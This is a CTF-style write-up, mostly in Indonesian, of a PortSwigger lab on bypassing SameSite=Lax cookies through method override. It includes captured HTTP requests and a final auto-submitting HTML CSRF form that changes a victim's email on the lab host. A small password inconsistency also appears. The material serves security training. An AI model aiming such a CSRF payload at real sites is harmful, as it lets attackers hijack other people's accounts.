



# SameSite Lax bypass via method override

> **Lab Description:** This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack. You can log in to your own account using the following credentials: wiener:peter

## Lab Overview

| Property             | Detail                                                                                                                                        |
| :------------------- | :-------------------------------------------------------------------------------------------------------------------------------------------- |
| **Category**         | SameSite Lax bypass via method override                                                                                                       |
| **Difficulty Level** | Apprentice                                                                                                                                    |
| **Lab URL**          | [PortSwigger Lab Link](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override) |
| **Status**           | Solved                                                                                                                                   |
| **Date Completed**   | 2026-11-16                                                                                                                                    |

## Analysis

Diberikan website sebagai berikut:



Pertama, saya akan login menggunakan kredensial berikut:

```text
username: wiener
password: pieter
```

Setelah berhasil login akan diredirect kedalam dashboard user



Sesuai dengan judul dari lab ini, kita perlu bypass SameSite, namun dari struktur request POST Header `change-email`, header tidak menetapkan aturan dari `SameSite` menjadi `SameSite=Strict` atau `SameSite=Lax`, seperti berikut:

```text
POST /my-account/change-email HTTP/2
Host: 0a5900dc049eb1198049497c003a0037.web-security-academy.net
Cookie: session=qFe0iHC6fv90tXO7WB5z65cpqAQHWBSs
Content-Length: 32
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="8", "Chromium";v="156"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Origin: https://0a5900dc049eb1198049497c003a0037.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5900dc049eb1198049497c003a0037.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Namun default `SameSite` browser adalah `SameSite=Lax`, berikut ketentuan yang memenuhi kondisi `SameSite=Lax`:

- The request uses the GET method.
- The request resulted from a top-level navigation by the user, such as clicking on a link.

Lalu, saya coba untuk membuktikannya dengan mengirim request POST `change-email` ke burp repeater dengan payload berikut:

```text
GET /my-account/change-email?botnet-exploit%40gmail.com&_method=POST HTTP/2
```

Response dari server terbukti web rentan terkena bypass samesite lax via method override

```text
HTTP/2 302 Found
Location: /login
Set-Cookie: session=bbUlmK2M5tCfJjhJMhLlkeoNPv58LqZs; Expires=Tue, 17 Nov 2026 03:55:59 UTC; Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

## Exploitation

Objektif utama dari lab ini adalah kita diminta untuk mengubah email pengguna lain menggunakan teknik Bypass SameSite Lax via method overide. Namun sebelumnya saya menyusun PoC CSRF nya lalu mengirimkannya melalui exploit server



### Final Exploit

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>PoC CSRF</title>
  </head>
  <body>
    <form
      action="https://0a5900dc049eb1198049497c003a0037.web-security-academy.net/my-account/change-email"
      method="GET"
    >
      <input type="hidden" name="_method" value="POST" />
      <input
        type="hidden"
        name="email"
        value="johndoe@web-security-academy.net"
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## New Knowledge

- Memahami cara kerja CSRF attack
- Mempelajari cara kerja rule `SameSite=Lax` dan celahnya
- Mempelajari cara melakukan method overriding menggunakan burp suite

## References

- [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
- [https://hacktricks.wiki/en/pentesting-web/csrf-cross-site-request-forgery.html](https://hacktricks.wiki/en/pentesting-web/csrf-cross-site-request-forgery.html)
- [https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)
